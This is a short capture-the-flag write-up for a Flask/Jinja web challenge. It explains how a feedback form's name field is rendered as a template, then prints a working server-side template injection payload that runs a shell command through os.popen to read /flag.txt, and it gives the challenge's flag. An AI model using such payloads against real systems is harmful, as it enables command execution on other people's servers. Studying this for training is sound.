 ```yaml
---
title: "A personalised thank you"
description: "RISC intro2web challenge 2"
pubDate: "Aug 26 2025"
heroImage: "/hero/RISC.webp"
tags: ["cyber", "python", "flask", "ctf", "exploit"]
---
```


## Challenge description

Thank you for your feedback { name }

Flag is in /flag.txt

---

## Approach

Lets have a look at the feedback page.

We can input a name and a message and upon submitting are presented with "Thank you for your feedback " and our name.

We know that the site is built with Python Flask, which uses Jinja for templating allowing loading html files and substituting variables and logic before serving to the client.

E.g.

```html
<html>
	<body>
		<h1>{{ title }}</h1>
	</body>
</html>
```

So if we pass a Jinja template into our name, and the name is being passed into a template string, Jinja will evaluate the input.

We can test this by using `{{}}` as our name and we see:

> Thank you for your feedback

Our input was evaluated by Jinja into nothing.

We can abuse the arbitrary Jinja execution to get arbitrary bash execution and cat the flag located in `/flag.txt`

### Python implementation

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read()}}
```

> Thank you for your feedback RISC{y0ur_f33db4ck_1snt_p4rt1cul4rly_s4f3!\_e85dae1c0b362b4c7019905ca3a56ecf}

So our flag is:

```
RISC{y0ur_f33db4ck_1snt_p4rt1cul4rly_s4f3!_e85dae1c0b362b4c7019905ca3a56ecf}
```
